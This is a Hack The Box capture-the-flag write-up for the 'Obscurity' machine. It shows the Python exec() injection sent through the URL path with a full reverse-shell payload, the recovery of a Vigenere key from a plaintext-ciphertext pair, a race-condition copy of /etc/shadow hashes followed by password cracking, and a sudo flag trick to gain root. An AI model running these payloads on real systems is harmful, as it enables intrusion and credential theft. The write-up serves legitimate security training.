 ```yaml
---
layout: writeup
title: Obscurity
description: HTB writeup
logo: /assets/img/writeups/obscurity_logo.png
show-avatar: false
permalink: /writeups/obscurity.html
OS: Linux
difficulty: Medium
release: 30 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/83743">clubby789</a>
cleared: 3 Dec 2019
published: 2019 12 03
---
```


**Cliffs:** Find source code for the webserver in hidden directory and analyze it to figure out RCE that will give low privilege shell. In user directory there is a python encryption script we can use to figure out users password. As user we can run a python script meant to replace SSH that we can use to gain access to roots password hash or simply to access the root flag.

<h2 align="center">Enumeration</h2>


Starting with standard nmap scan...

```
# Nmap 7.80 scan initiated Sun Dec  1 14:14:06 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.168                                                        
Nmap scan report for 10.10.10.168                             
Host is up (0.076s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)   
80/tcp   closed http 
8080/tcp open   http-proxy BadHTTPServer
_http-server-header: BadHTTPServer
_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  1 14:16:09 2019 -- 1 IP address (1 host up) scanned in 123.63 seconds
```

If we navigate to the website on port **8080** we see a webpage for a company with a rather interesting take on security. If we run **gobuster** or similar we won't find any useful directories. However reading the page, at the bottom we see 

![secret](/assets/img/writeups/obscurity_webpage.png)

So we know there is a file for us to find, so lets use the following **wfuzz** command to find the directory

```
wfuzz -c -w /usr/share/wordlists/dirb/small.txt 10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

![wfuzz](/assets/img/writeups/obscurity_wfuzz.png)

Navigating to *ht<span>tp://</span>10.10.10.168:8080/develop/SuperSecureServer.py* we are greeted by the code.

Analyzing the code, in the serveDoc() function we see

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since we have control over the path, we can use that to get exec() to run code we want. We just need to make sure and correctly handle the closing of quotes, since the first part of the info variable is something we don't have control over (output = 'Document: ), nor is the very last character (a single quote). We want to get it into the form

```python
output = 'Document: '
<our code for a shell>
''
```

but since it's all one line in a string, we will use a semi colon. So info will actually look like

```python
info = "output = 'Document: ';<our code for a shell>;''"
```

so our path will be

```
10.10.10.168:8080/';<our shell code>;'
```

So what should we use to get a shell? We know the box is running python, so lets use the python reverse shell from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python">PayloadsAllTheThings</a>. The script has already imported socket, subprocess, and os, so we can remove those. So our path is the following

```
10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'
```

If we set a netcat listener and visit that url, we will found ourselves with a shell as user **www-data**

![shell](/assets/img/writeups/obscurity_shell.png)

Enumerating the machine will turn up a number of interesting files in the */home/robert* directory.
We have **check.txt** which outputs

```
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

So it looks like we have a plaintext and a ciphertext (**out.txt**), so let's take a look at **SuperSecureCrypt.py** and see if we can figure out how it's encrypting things. Looking at the encrypt() function

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The key line is

```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

It is simply tacking a character from the plaintext and adding it to a character from the key and outputting the resulting character. This is a **Vigenere cipher**. So if we have *plaintext + key = ciphertext*, to get the key just like solving any formula we subtract plaintext from each side of the equation and have *key = ciphertext - plaintext*. We have a plaintext and ciphertext pair (check.txt and out.txt), so we could write a simple script to do the subtraction, but we don't need to. If we look at the decrypt() function we see it operates by subtracting the key from the ciphertext to give the plaintext. If instead we give it our plaintext as they key, it will give us the key. We copy the necessary files to */dev/shm* since we don't have write access in the robert directory

```
www-data@obscure:/dev/shm$ python3 SuperSecureCrypt.py -i out.txt -o key.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to key.txt...
www-data@obscure:/dev/shm$ cat key.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

The key is **alexandrovich**, which we can now use to decrypt **passwordreminder.txt**, which decrypts to **SecThruObsFTW**, which is the ssh and user pass for robert, we now have access to user.txt

<h2 align="center">On To Root!</h2>
So now that we are user we can check out the **BetterSSH.py** file in */home/robert/BetterSSH/*. We could read it before, but as we will see the code is accessing the /etc/shadow file, so we need root permisions to make it work. Which we fortunately have with robert as we can see below

```
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

The script gets the password hashes from the */etc/shadow* file and then compares it to the hash of the password you enter for a user. If they match then it gives you a faux shell. 



**Method #1:** 
Fortunatelyfor us, for some reason the script also copies the output of the shadow file to a random file in */tmp/SSH*/ as shown in the snippet of code below

```python
passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Unfortunately after it pauses for .1 seconds, every code path then leads to the deletion of that file. However, we don't need anymore time than that. Using **Watch** which is a linux program that runs a command repeatedly and also allows us to set the interval to .1 seconds, we will watch */tmp/SSH*/ and have it copy the directory every .1 seconds. When the password file is written to that directory, watch will grab a copy of it before it's deleted. We issue the following command

```
robert@obscure:~/BetterSSH$ watch -n .1 cp /tmp/SSH/* /dev/shm
```

Also make sure to create the */SSH/* directory if it doesn't already exist. Watch takes over the terminal, so we will need to open a seperate SSH session as robert so we can run the python script.

```
robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: Hilbert
Enter password: blahblahblah
Invalid user
robert@obscure:/dev/shm$ ls 
BCozoXF5
```

We have succesfuly copied the file. Looking at the file we can see the hash for user root is

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Lets crack it! Using **John the ripper** and the wordlist **rockyou.txt**. We issue the following commands
![crack](/assets/img/writeups/obscurity_mercedes.png)

As we can see the root password is *mercedes*. And we now have access to the root flag.

![root](/assets/img/writeups/obscurity_root.png)



**Method #2:**
Looking at the script we see If we enter a correct password for user, we are authenticated and get a "shell"

```python
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Every command we enter is prefixed with *sudo -u \<username\>*, but since the script is running as root we can just append another *-u* flag on to execute commands as root. Since we have the password for robert we are able to authenticate via the script
![method2](/assets/img/writeups/obscurity_method2.png)
